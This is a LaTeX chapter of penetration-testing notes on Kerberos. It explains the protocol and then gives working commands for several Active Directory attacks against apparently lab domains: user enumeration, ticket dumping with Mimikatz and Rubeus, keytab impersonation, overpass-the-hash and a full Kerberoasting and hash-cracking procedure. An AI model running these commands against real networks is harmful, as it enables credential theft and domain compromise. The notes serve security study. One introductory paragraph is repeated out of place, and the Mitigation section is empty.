\chapter{Kerberos}

\section{Introduction}
\label{network:kerberos:authentication}

\subsection{major Components}

The Kerberos protocol defines how  clients interact with a network authentication service. Clients obtain  tickets from the Kerberos Key Distribution Center (KDC), and they submit  these tickets to application servers when connections are established.  It uses UDP port 88 by default and depends on the process of symmetric  key cryptography.
“Kerberos uses tickets to authenticate a user and completely avoids sending passwords across the network”.
There are some key components in Kerberos authentication that play a crucial role in the entire authentication process.
\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-components.png}
  \caption{Kerberos components}
  \label{fig:kerberos-components}
\end{figure}

\subsection{workflow}

In the Active Directory domain, every  domain controller runs a KDC (Kerberos Distribution Center) service that  processes all requests for tickets to Kerberos. For Kerberos tickets,  AD uses the KRBTGT account in the AD domain.
The image below shows that the major  role played by KDC in establishing a
secure connection between the  server \& client and the entire process uses some special components  as defined in the table above.

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-all.png}
  \caption{Kerberos Workflow}
  \label{fig:kerberos-workflow}
\end{figure}


As mentioned above, Kerberos uses  symmetric cryptography for encryption and decryption. Let us get into  more details and try to understand how encrypted messages are sent to  each other. Here we use three colours to distinguish Hashes:
\begin{itemize}
    \item \verb+BLUE _KEY+: User NTLM HASH
    \item \verb+YELLOW_KEY+: Krbtgt NTLM HASH
    \item \verb+RED_KEY+: Service NTLM HASH
\end{itemize}

\subsubsection*{Step 1: Communication initialization}
\verb+KRB_AS_REQ+ contains the following:
\begin{itemize}
    \item Username of the client to be authenticated.
    \item The service SPN (SERVICE PRINCIPAL NAME) linked with Krbtgt account
    \item An encrypted timestamp (Locked with User Hash: Blue Key)
\end{itemize}

The entire message is encrypted using the User NTLM hash (Locked with BLUE KEY) to authenticate the user and prevent replay attacks.

\subsubsection*{Step 2}

The KDC uses a database consisting of Users/Krbtgt/Services hashes to decrypt a message (Unlock with BLUE KEY) that authenticates user identification.
Then KDC will generate TGT (Ticket  Granting Ticket) for a client that is
encrypted using Krbtgt hash  (Locked with Yellow Key) \& some Encrypted Message using User Hash.

\verb+KRB_AS_REP+ contains the following:
\begin{itemize}
    \item  Username
    \item  Some encrypted data, (Locked with User Hash: Blue Key) that contains: 
    \begin{itemize}
        \item  Session key
        \item  The expiration date of TGT
    \end{itemize}
    \item  TGT, (Locked with Krbtgt Hash: Yellow Key) which contains:
    \begin{itemize}
        \item  Username
        \item  Session key
        \item  The expiration date of TGT
        \item  \gls{win:PAC}~\ref{network:ad:kerberos:PAC}
 with user privileges, signed by KDC
    \end{itemize}
\end{itemize}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-1.png}
  \caption{Kerberos TGT}
  \label{fig:kerberos-tgt}
\end{figure}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-2.png}
  \caption{Kerberos TGS}
  \label{fig:kerberos-tgs}
\end{figure}

\begin{figure}
  
\includegraphics[width=\linewidth]{network/kerberos/images/kerb-3.png}
  \caption{Kerberos Service Authentication}
  \label{fig:kerberos-service}
\end{figure}

\subsubsection*{Step 3}
The \verb+KRB_TGT+ will be stored in the Kerberos tray (Memory) of the client
machine, as the user already has the \verb+KRB_TGT+, which is used to identify  himself for the TGS request. The client sent a copy of the TGT with the  encrypted data to KDC.

\verb+KRB_TGS_REQ+ contains:
\begin{itemize}
    \item Encrypted data with the session key
    \begin{itemize}
        \item Username
        \item Timestamp
    \end{itemize}
    \item TGT
    \item SPN of requested service e.g. SQL service
\end{itemize}


\subsubsection*{Step 4}

The KDC receives the \verb+KRB_TGS_REQ+ message and decrypts the message using
Krbtgt hash to verify TGT (Unlock using Yellow key), then KDC returns a  TGS as
\verb+KRB_TGS_REP+ which is encrypted using requested service hash (Locked with
Red Key) and Some Encrypted Message using User Hash.

\verb+KRB_TGS_REP+ contains:
\begin{itemize}
    \item Username
    \item Encrypted data with the session key:
    \begin{itemize}
        \item Service session key
    \end{itemize}
    \item The expiration date of TGS
    \item TGS, (Service Hash: RED Key) which contains:
    \begin{itemize}
        \item  Service session key
        \item Username
        \item The expiration date of TGS
        \item  \gls{win:PAC}~\ref{network:ad:kerberos:PAC}
 with user privileges, signed by KDC
    \end{itemize}
\end{itemize}


\subsubsection*{Step 5}
The user sent the copy of TGS to the Application Server,\verb+KRB_AP_REQ+ contains:
\begin{itemize}
    \item TGS
    \item Encrypted data with the service session key:
    \begin{itemize}
        \item Username
        \item Timestamp, to avoid replay attacks
    \end{itemize}
\end{itemize}

\subsubsection*{Step 6}
The  application attempts to decrypt the message using its NTLM hash and to  verify the PAC from KDC to identify user Privilege which is an optional  case.
\subsubsection*{Step 7}
KDC verifies PAC (Optional)
\subsubsection*{Step 8}
Allow the user to access the service for a specific time.

\subsection{Privileged Attribute Certificate (PAC)}
\label{network:ad:kerberos:PAC}

The \gls{win:PAC} is an extension to Kerberos tickets that contains useful
information about a user’s privileges.  This information is added to Kerberos
tickets by a domain controller when a user authenticates within an Active
Directory domain.  When users use their Kerberos tickets to authenticate to
other systems, the PAC can be read and used to determine their level of
privileges without reaching out to the domain controller to query for that
information (more on that to follow).

PACs contain very sensitive information and therefore have been the target of
several Active Directory attack techniques over the years.

PAC is double encrypted (SPN hash) signed by the KDC hash.

Critical services in term of perf (MSSQL) don't ask the KDC to verify this open
to PAC forgery attack

\url{https://stealthbits.com/blog/what-is-the-kerberos-pac/}


\subsection{Service Principal Name (SPN)}
\label{network:ad:kerberos:SPN}
\index{Active Directory!SPN}

\gls{win:SPN}s are unique identifiers that Kerberos uses to map a service
instance to a service account in whose context the service is running. Domain
accounts are often used to run services to overcome the network authentication
limitations of built-in accounts such as \verb+NT AUTHORITY\LOCAL SERVICE+

Active Directory Domain  Services and Windows provide support for Service Principal Names (SPNs),  which are key components of the Kerberos mechanism through which a  client authenticates a service.

Domain accounts running services are often local administrators, if not highly
privileged domain accounts. Due to the distributed nature of systems,
interacting services, and associated data transfers, service accounts may be
granted administrator privileges on multiple servers across the enterprise.
Many services require elevated privileges on various systems, so service
accounts are often added to privileged groups, such as Domain Admins, either
directly or via nested membership. {\bf Finding SPNs associated with highly
privileged accounts in a Windows environment is very common}. 

Important Points:
\begin{enumerate}
\item If you install multiple instances of a service on computers throughout a forest, each instance must have its SPN. 
\item Before the Kerberos authentication service can use an SPN to authenticate a service, the SPN must be registered on the account.
\item A given SPN can be registered on only one account. 
\item An SPN must be unique in the forest in which it is registered.
\item If it is not unique, authentication will fail.
\end{enumerate}

\subsubsection{SPN format}
\verb+<ServiceClass>/<host>:<port> <serviceName>+
\begin{itemize}
    \item \verb+ServiceClass+: \verb+HTTP, LDAP,MSSQLSVC+ \ldots
    \item \verb+host+: \verb+<DomainName>/wMachineName>+
\end{itemize}


\subsubsection{Type of SPN}
\begin{itemize}
\item Host-based SPNs which is associated  with the computer account in AD, it is randomly generated 128-character  long password which is changed every 30 days, hence it is no use in  Kerberoasting attacks
\item SPNs that have been associated with a domain user account where NTLM hash will be used.
\end{itemize}

\subsection{Pre-authentication}
\label{windows:authentication:kerberos:preauthentication}

Pre-authentication requires that requestors prove their identity before the KDC will issue a ticket for a particular principal. There are several types of pre-authentication defined by the Kerberos Clarifications document. However, only the  encrypted timestamp (PA-ENC-TIMESTAMP) pre-authentication method is commonly implemented.

Pre-authentication is controlled by KDC policy. If a user attempts to acquire
initial tickets through the AS exchange, but the KDC requires
pre-authentication, then the KDC will send a \verb+KRB_ERROR+ message instead
of an \verb+AS_REP+ in reply to the client AS request. This \verb+KRB_ERROR+ message tells the client that pre-authentication is required. If the KDC responds with the error \verb+PRINCIPAL UNKNOWN+, the username is invalid.

This request used for username enumeration does not cause logon failures and will not
lock out accounts.



After the enumeration of user accounts is finished, we can attempt to abuse a
feature within Kerberos with an attack method called \verb+ASREPRoasting+. ASReproasting occurs when a user account has the privilege "Does not require Pre-Authentication" set. This means that the account does not need to provide valid identification before requesting a Kerberos Ticket on the specified user account.

The Kerberos protocol defines how  clients interact with a network authentication service. Clients obtain  tickets from the Kerberos Key Distribution Center (KDC), and they submit  these tickets to application servers when connections are established.  It uses UDP port 88 by default and depends on the process of symmetric  key cryptography.
“Kerberos uses tickets to authenticate a user and completely avoids sending passwords across the network”.
There are some key components in Kerberos authentication that play a crucial role in the entire authentication process.

This method does not generate Windows event ID
\href{https://docs.microsoft.com/en-us/windows/security/threat-protection/auditing/event-4625}{4625:
An account failed to log on}, or a logon failure which is often monitored for.

\url{https://ldapwiki.com/wiki/Kerberos%20Pre-Authentication}

\subsection{MIT vs Microsoft}
\url{https://www.techblog.moebius.space/posts/2018-05-25-kerberos-an-overview-of-principals-and-keytabs/#keytabs}

Kerberos uses a key agreement process to exchange messages. Both the  client and KDC know the users "long term credential" which is their  password hashed using a specific key derivation function. When the  client wants to send a message to the KDC, it encrypts it using the long  term credential. The KDC knows that credential so it can decrypt it.  The response is encrypted in the same way.
Neither party sends the password or its hash to the other in general use.


\subsection{Keytabs}
In most cases, end-users would authenticate to the KDC using their  client secret (i.e their password). However, it would be cumbersome for  automated scripts and applications to regularly (re)authenticate using a  password.
This is where it might make sense to use a keytab. A keytab (Key  Table), is a file storing pairs of Kerberos principals and their keys.  When users generally start the authentication process using kinit, they  are prompted for their password - which triggers the KDC to provide it  the TGT, and then initiate the follw-up requests for service tickets.  What the keytab does is when the client wishes to initiate  authentication, the password is sent automatically to the KDC (in  encrypted form) from the keytab file, rather than prompting for it.
The consequences of this are fairly obvious. Anyone who has access to  a keytab can essentially impersonate the principal(s) contained within  it. So its safe to say that keytabs should be protected just like  passwords.

\subsection{Links}
\begin{itemize}
    \item \url{https://www.roguelynn.com/words/explain-like-im-5-kerberos/}
    \item \url{https://www.kerberos.org/software/tutorial.html}
\end{itemize}

\section{Kerberos Protocol Extensions}

\subsection{Kerberos Delegation Protocol}

See~ \ref{windows:authentication:kerberos:delegation}



\subsection{Public Key Cryptography for Initial Authentication (PKINIT)}
\label{ref:kerberos:pkinit}
This protocol enables the use of public key cryptography in the initial authentication exchange of the Kerberos Protocol (PKINIT) and specifies the Windows implementation of PKINIT where it differs from [RFC4556].

A user will sign the authenticator for a TGT request using the private key of their certificate and submit this request to a domain controller. The domain controller performs a number of verification steps and issues a TGT if everything passes. These steps are best detailed by Microsoft’s smart card documentation
\begin{verbatim}
The KDC validates the user's certificate (time, path, and revocation status) to
ensure that the certificate is from a trusted source. The KDC uses CryptoAPI to
build a certification path from the user's certificate to a root certification
authority (CA) certificate that resides in the root store on the domain controller.
The KDC then uses CryptoAPI to verify the digital signature on the signed
authenticator that was included in the preauthentication data fields. The
domain controller verifies the signature and uses the public key from the user's
certificate to prove that the request originated from the owner of the private
key that corresponds to the public key. The KDC also verifies that the issuer is
trusted and appears in the NTAUTH certificate store.
\end{verbatim}

The \verb+NTAUTH certificate store+ mentioned here refers to an AD object AD CS
installs at the following location:
\begin{verbatim}
CN=NTAuthCertificates,CN=Public Key Services,CN=Services,CN=Configuration,DC=<DOMAIN>,DC=<COM>
\end{verbatim}

Microsoft explains the significance of this object:
\begin{verbatim}
By publishing the CA certificate to the Enterprise NTAuth store, the
Administrator indicates that the CA is trusted to issue certificates of these types.
Windows CAs automatically publish their CA certificates to this store.
\end{verbatim}

When AD CS creates a new CA (or it renews CA certificates), it publishes the new certificate to the \verb+NTAuthCertificates+ object by adding the new
certificate to the object’s cacertificate attribute. 

During certificate authentication, the DC can then verify that the authenticating certificate chains to a CA certificate defined by the \verb+NTAuthCertificates+ object. CA certificates in the \verb+NTAuthCertificates+ object must in turn chain to a root CA. The big takeaway here is {\bf the NTAuthCertificates object is the root of trust for
certificate authentication in Active Directory!}

\subsubsection{Key Trust}

Microsoft introduced the concept of \href{https://learn.microsoft.com/en-us/windows/security/identity-protection/hello-for-business/deploy/hybrid-key-trust}{Key Trust} to enable passwordless authentication in environments that don't support Certificate Trust. With Key Trust, PKINIT authentication is established using raw key data stored in the AD object's attribute called \verb+msDS-KeyCredentialLink+ instead of a certificate.

The client's public key is stored in the multi-value attribute, \verb+msDS-KeyCredentialLink+. This attribute's values are Key Credentials, serialized objects containing information such as the creation date, the distinguished name of the owner, a GUID that represents a Device ID, and, of course, the public key. It is a multi-value attribute because an account has several linked devices.

Microsoft passwordless solution is called \href{https://learn.microsoft.com/en-us/windows/security/identity-protection/hello-for-business/}{Windows Hello for Business (WHfB)}. With WHfB, when a user enrolls, the TPM generates a public-private key pair for their account. The private key is stored in the TPM and never leaves it.

\begin{itemize}
    \item With Certificate Trust model: the client issues a certificate request to obtain a trusted certificate from the environment’s certificate issuing authority for the TPM-generated key pair
    \item Without Certificate Trust model: the public key is stored in a new Key Credential object in the msDS-KeyCredentialLink attribute of the account
\end{itemize}

For compatibility purposes, when a client uses PKINIT and needs to communicate with a service that doesn't support Kerberos authentication, NTLM is used. Microsoft introduced a special Service Ticket as an alternative authentication method to address that. This ticket contains the NTLM hash inside the {\bf Privilege Attribute Certificate (PAC)} in an encrypted {\bf \verb+NTLM_SUPPLEMENTAL_CREDENTIAL+} entity

The encrypted PAC is stored within the ticket, which is encrypted using the key of the service it was issued for. To obtain a ticket that can be decrypted, the client needs to perform Kerberos User-to-User (U2U) authentication to itself.

Every time a client requests a TGT, a new session key is created. The KDC does not keep a record of active session keys but extracts the session key from the client's ticket. When a user requests a U2U TGS-REQ, the KDC uses the target user's TGT as an additional ticket in the response. The KDC then extracts the session key from the encrypted part of the TGT and generates a new service ticket.

 if we request a U2U Service Ticket from ourselves to ourselves, we will be able to decrypt the ticket and access the PAC and the NTLM hash because the key used to encrypt the ticket is in our possession. By modifying the msDS-KeyCredentialLink property, we can also obtain a user's or computer's NTLM hash.

\section{Fingerprinting}

\begin{verbatim}
$ sudo nmap –p 88


PORT STATE SERVICE VERSION
88/tcp open kerberos-sec?
\end{verbatim}

\section{Enumeration}

\subsection{User enumeration}

\subsubsection{nmap}

\begin{verbatim}
sudo nmap –p 88 \
    –script-args krb5-enum-users.realm=’[domain]’,userdb=[user list] [DC IP]
\end{verbatim}

\subsubsection{kerbrute}

Kerbrute~\ref{tool:kerbrute:user-enum} using kerberos pre-authn. Note if user
does not requiere pre-auth Kerbrute will dump the hash.{\bf  WARNING} if the hash
can't be crack it might be possible that the one grabbed using TGT grabbed
using GGetNPUsers~\ref{tool:impacket:GetNPUSers}

\subsubsection{Metasploit}
\verb+auxiliary/gather/kerberos_enumusers+


\section{Linux setup}
\subsection{Attacking from non domain joined linux}
. If we use them from a domain-joined machine, we need to ensure our KRB5CCNAME environment variable is set to the ccache file we want to use. In case we are attacking from a machine that is not a member of the domain, for example, our attack host, we need to make sure our machine can contact the KDC or Domain Controller, and that domain name resolution is working.

In this scenario, our attack host doesn't have a connection to the KDC/Domain
Controller, and we can't use the Domain Controller for name resolution. To use
Kerberos, we need to proxy our traffic via MS01 with a tool such as Chisel and
Proxychains and edit the /etc/hosts file to hardcode IP addresses of the domain
and the machines we want to attack. 

\subsection{Adjusting time}

\begin{verbatim}
$ sudo timedatectl set-ntp false
$ ## edit /etc/systemd/timesyncd.conf to point
$ cat /etc/systemd/timesyncd.conf |grep '^NTP'
NTP=dc.intelligence.htb
# $ sudo timedatectl set-ntp true
\end{verbatim}

if it does not works

\begin{verbatim}
$ nmap -sV -sC 10.10.10.10
clock-skew: mean: -1998d09h03m04s, deviation: 4h00m00s, median: -1998d11h03m05s

$ nmap -sT dc01.coder.htb -p445 --script smb2-time -vv
Host script results:
| smb2-time:
|   date: 2023-04-03T09:15:47
|_  start_date: N/A
\end{verbatim}



\begin{verbatim}
$ sudo timedatectl set-ntp false
$ ldapsearch -LLL -x -H ldap://10.10.10.248 -b '' -s base '(objectclass=*)' |
    grep currentTime
currentTime: 20230128092311.0Z
$ sudo timedatectl set-time '2023-01-28 10:31:31'
\end{verbatim}

\subsection{Setup Kerberos client}

some tools such as \verb+evil-winrm+ require \verb+krb5+ package

\begin{verbatim}
$ cat /etc/krb5.conf

[libdefaults]
        default_realm = INLANEFREIGHT.HTB

<SNIP>

[realms]
    INLANEFREIGHT.HTB = {
        kdc = dc01.inlanefreight.htb
    }

<SNIP>
\end{verbatim}

might need to setup some hosts in \verb+/etc/hosts+



\section{Brute force / spraying}
\verb+kerbrute+~\ref{tool:kerbrute:password-spraying}

\verb+domainPasswordSpray+~\ref{tool:domainpasswordspray}

\section{Stealing Kerberos Tickets}

\subsection{Ticket conversion}
If we want to use a ccache file in Windows or a kirbi file in a Linux machine,
we can use impacket \verb+ticketConverter+ to convert them:



\subsection{On windows}

\subsubsection{Mimikatz}
Mimikatz module \verb+sekurlsa::tickets /export+. The result is a list of files
with the extension .kirbi, which contain the tickets.

Need to \verb+privilege::debug+

\subsubsection{Rubeus}

\begin{verbatim}
Rubeus.exe dump /nowrap
\end{verbatim}


\subsection{from a domain joined linux}

\href{https://github.com/CiscoCXSecurity/linikatz}{Linikatz} is a tool created
by Cisco's security team for exploiting credentials on Linux machines when
there is an integration with Active Directory. In other words, Linikatz brings
a similar principle to Mimikatz to UNIX environments.


\subsection{Abusing keytab files}

\begin{itemize}
    \item \verb+klist+: list cached Kerberos tickets
    \item \verb+kinit+: get a TGT
\end{itemize}
    

\subsubsection{Impersonation}

Simply use the keytab file of anoter user

\begin{verbatim}
# list content of a keytab file
$ klist -k -t [<file>]

# kinit <principal> -k -t <keytab file> 

# confirm
$ klist 
\end{verbatim}

\subsubsection{Extracting keytab Hashes}

\begin{verbatim}
$ KeyTabExtract <keytab file>
\end{verbatim}

then crack and login or generate a TGT with impacket \verb+getTGT+



\section{Forging Kerberos Tickets}
\subsection{OverPass the Hash / Pass the Key}
\href{https://blog.gentilkiwi.com/securite/mimikatz/overpass-the-hash}{Overpass-the-hash
par Gentil Kiwi in french}

\href{https://www.slideshare.net/gentilkiwi/abusing-microsoft-kerberos-sorry-you-guys-dont-get-it/18}{Abusing
Microsoft Kerberos - Sorry you guys don't get it}

This attack aims to use the user NTLM hash or AES keys to request Kerberos
tickets, as an alternative to the common Pass The Hash over NTLM protocol.
Therefore, this could be especially useful in networks where NTLM protocol is
disabled and only Kerberos is allowed as authentication protocol.

In order to perform this attack, the NTLM hash (or password) of the target user
account is needed. Thus, once a user hash is obtained, a TGT can be requested
for that account. Finally, it is possible to access any service or machine
where the user account has permissions.


\subsubsection{From Windows}






\subsubsection{From Linux}

\begin{verbatim}
python getTGT.py jurassic.park/velociraptor -hashes :2a3de7fe356ee524cc9f3d579f2e0aa7
export KRB5CCNAME=/root/impacket-examples/velociraptor.ccache
python psexec.py jurassic.park/velociraptor@labwws02.jurassic.park -k -no-pass
\end{verbatim}

\subsection{Kerberoasting}
\label{kerberos:kerberoasting}

\url{https://www.hackingarticles.in/deep-dive-into-kerberoasting-attack/}

\subsubsection{Introduction}
This attack may be used for both lateral and vertical movement.

When  a domain account is configured to run a service (for example, IIS, MSSQL,
\ldots.), a \gls{win:SPN}~\ref{windows_knowledge:ad:kerberos:SPN} is  used to
associate the service with a login account. 

If a user  wants to access the resource, they receive a \verb+TGS+ signed with
the NTLM password hash of the account running the service.

Hackers can  then crack this hash offline and use it to gain access. 

Any user on the domain with a valid \verb+TGT+ can request a \verb+TGS+ for any
service with an \verb+SPN+. Note that there is no fix or patch beyond ensuring
that the password for the service accounts are sufficiently complex.

{\bf Note:} 
\begin{itemize}
    \item with ACL abuse attack it is also possible to associate a SPN to a user account
in order to gain access to his password.
    \item computer account SPN should be avoided (long random password).
\end{itemize}

Kerberoasting Major Steps:
\begin{enumerate}
    \item domain access 
    \item discover SPNs
    \item Request for TGS ticket for discovered SPN 
    \item Dump the TGS ticket 
    \item Convert into crackable format
    \item brutforce the hash (hashcat format 13100 or JtT format \verb+krb5tgs+)
    \item test authentication (rpcclient, crackmap \ldots)
\end{enumerate}

{\bf Post exploit}: PAC forgery

\subsubsection{From Linux}

\begin{itemize}
    \item crackmapexec~\ref{tool:crackmapexec:ldap:kerberoasting}
    \item GetUserSPNs~\ref{tool:impacket:GetUserSPNs}
    \item metasploit (from meterpreter 
        \verb+powershell_import Invoke-kerberoast.ps1+)
    \item PowerSheel Empire (module \verb+credentials/invoke_kerberoast+)
    \item Pypykatz
\end{itemize}


\subsubsection{From Windows}
{\bf Semi Manual method}
\begin{enumerate}
    \item {\bf setspn} to enumerate the SPN
\begin{verbatim}
setspn.exe -Q */*
\end{verbatim}

    \item retrieve the TGS with :
        \begin{itemize}
                \item PowerShell
        (\href{https://docs.microsoft.com/en-us/dotnet/api/system.identitymodel?view=netframework-4.8}{System.IdentityModel}
        is a namespace that contains different classes for building security
    token services) 
\begin{verbatim}
Add-Type -AssemblyName System.IdentityModel
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken `
    -ArgumentList "MSSQLSvc/DEV-PRE-SQL.inlanefreight.local:1433"
\end{verbatim}
or for all services (bu will inculde computer accounts
\begin{verbatim}
setspn.exe -T INLANEFREIGHT.LOCAL -Q */* | Select-String '^CN' -Context 0,1 | `
    % { New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken ` 
    -ArgumentList $_.Context.PostContext[0].Trim() }
\end{verbatim}
                \item \verb+Powerview+~\ref{tool:powerview:Get-DomainGPO}
        \end{itemize}

    \item Extract Tickets from Memory with Mimikatz~\ref{tool:mimikatz:KRBDUmp}
    \item transfer file on Linux box~\ref{misc:file_transfert}
    \item Prepar the Base64 Blob for Cracking
\begin{verbatim}
echo "<BASE64_BLOB>" |  tr -d \\n
\end{verbatim}
    \item Place the Output into a File as .kirbi
\begin{verbatim}
cat encoded_file | base64 -d > sqldev.kirbi
\end{verbatim}
    \item Extract the Kerberos Ticket using kirbi2john.py
\begin{verbatim}
python2.7 kirbi2john.py sqldev.kirbi
\end{verbatim}
    \item Modifiy crack file for Hashcat
\begin{verbatim}
sed 's/\$krb5tgs\$\(.*\):\(.*\)/\$krb5tgs\$23\$\*\1\*\$\2/' \
    crack_file > sqldev_tgs_hashcat
\end{verbatim}
    \item View the Prepared Hash
\begin{verbatim}
cat sqldev_tgs_hashcat
\end{verbatim}
    \item Crack the Hash with Hashcat
\begin{verbatim}
hashcat -m 13100 sqldev_tgs_hashcat /usr/share/wordlists/rockyou.txt
\end{verbatim}
\end{enumerate}

{\bf Automated: Rebeus }
See Rubeus~\ref{tool:rubeus}


{\bf Automated: Powerview}

Using
\href{https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Recon/PowerView.ps1}{PowerView}
to Extract TGS Tickets.

\begin{verbatim}
Import-Module .\PowerView.ps1
Get-DomainUser * -spn | select samaccountname

Get-DomainUser -Identity sqldev | Get-DomainSPNTicket -Format Hashcat

Get-DomainUser * -SPN | Get-DomainSPNTicket -Format Hashcat | `
    Export-Csv .\ilfreight_tgs.csv -NoTypeInformation
\end{verbatim}

\subsubsection{A Note on Encryption Types}


Kerberoasting tools typically request RC4 encryption when performing the attack
and initiating TGS-REQ requests. This is because RC4 is weaker and easier to
crack offline using tools such as Hashcat than other encryption algorithms such
as AES-128 and AES-256. When performing Kerberoasting in most environments, we
will retrieve hashes that begin with \verb+$krb5tgs$23$*+, an RC4 (type 23)
encrypted ticket. Sometimes we will receive an AES-256 (type 18) encrypted hash
or hash that begins with \verb+$krb5tgs$18$*+. While it is possible to crack
AES-128 (type 17) and AES-256 (type 18) TGS tickets using Hashcat, it will
typically be significantly more time consuming than cracking an RC4 (type 23)
encrypted ticket, but still possible especially if a weak password is chosen.

Let's walk through an example.
\begin{verbatim}
Get-DomainUser testspn -Properties samaccountname,serviceprincipalname,`
    msds-supportedencryptiontypes
\end{verbatim}
\verb+msDS-SupportedEncryptionTypes+ value (see
    \href{https://techcommunity.microsoft.com/t5/core-infrastructure-and-security/decrypting-the-selection-of-supported-kerberos-encryption-types/ba-p/1628797}{chart}:
\begin{itemize}
    \item 0: pecific encryption type is not defined and set to the default of
        \verb+RC4_HMAC_MD5+.
    \item 24: meaning that AES 128/256 encryption types are the only ones
    supported. (hashcat mode 19700)
\end{itemize}

We can use Rubeus with the /tgtdeleg flag to specify that we want only RC4
encryption when requesting a new service ticket. The tool does this by
specifying RC4 encryption as the only algorithm we support in the body of the
TGS request. This may be a failsafe built-in to Active Directory for backward
compatibility. By using this flag, we can request an RC4 (type 23) encrypted
ticket that can be cracked much faster.

{\bf Note}: This does not work against a Windows Server 2019 Domain Controller,
regardless of the domain functional level. It will always return a service
ticket encrypted with the highest level of encryption supported by the target
account. This being said, in a domain with Domain Controllers running on Server
2016 or earlier (which is quite common), enabling AES will not partially
mitigate Kerberoasting by only returning AES encrypted tickets, which are much
more difficult to crack, but rather will allow an attacker to request an RC4
encrypted service ticket. In Windows Server 2019 DCs, enabling AES encryption
on an SPN account will result in us receiving an AES-256 (type 18) service
ticket, which is substantially more difficult (but not impossible) to crack,
especially if a relatively weak dictionary password is in use.

\subsubsection{Efficacy of the Attack}
Kerberoasting and the presence of SPNs do not guarantee any level of access.
There might be environment where a cracked TGS ticket grand Domain Admin
access straightway or provide credentials that help move down the path to
domain compromise. In other environment none of the ones that crack are for
privileged users, and the attack does not allow any additional access. 

Another case the attack can end up with non crackable TGS.

\subsubsection{Mitigation}
